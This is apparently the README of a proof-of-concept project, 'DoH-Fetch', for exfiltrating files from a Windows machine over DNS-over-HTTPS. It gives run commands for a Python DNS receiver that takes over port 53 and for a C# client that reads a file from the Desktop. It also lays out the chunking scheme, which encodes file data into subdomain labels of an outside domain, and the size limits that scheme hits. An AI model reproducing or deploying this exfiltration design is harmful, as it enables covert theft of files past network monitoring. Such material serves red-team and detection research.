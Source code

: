 # DoH-Fetch
Simple proof of concept project to exfiltrate files via DoH

# Usage
```bash
# server
sudo systemctl stop systemd-resolved.service
sudo python3 dnspad.py
# files are stored in directory: files/<date>_combined.bin
```
```powershell
# client
.\fetch.exe -f '.\Desktop\test.xlsx'
```
# Architecture
Client (C#) - fetch.exe - ran on the Windows machine
1. Disassemble file for chunks
2. Create HTTPS requests with DNS query inside with chunks 

Server (Python) - dnspad.py  - ran on the Linux server machine (public IP + domain)
0. Stop services running on port 53 (internet access)
1. Run DNS server on port 53
2. While getting DNS queries assemble chunks into a file

# RFC limitations
* Label / subdomain:  `63` characters maximum
* Full Domain: `255` characters maximum
* Total URL: `2,000` characters maximum 

# My protocol design
My limits: `a.abcdefghi.com` which is `15` chars 

File integrity ? chunk identification number

2 bytes for ID, how many maximum ID's ?
255 * 255 = 65,025 

`possibleID` * `databytes` = maximum file size (in bytes)
`65,025` * `228` = 14,825,700 -> around 15MB

<42data>.<62data>.<62data>.<62data>.<2id>.a.chromalin.com

42 + 186 + 2 + 1 +  9 + 3 = 243

'.' also counting -> 7 above

Total: `250` where `228` is data 

simple test.xslx excel file: `8.27` KB -> 8270 / 228 = 36.3, meaning `37` requests
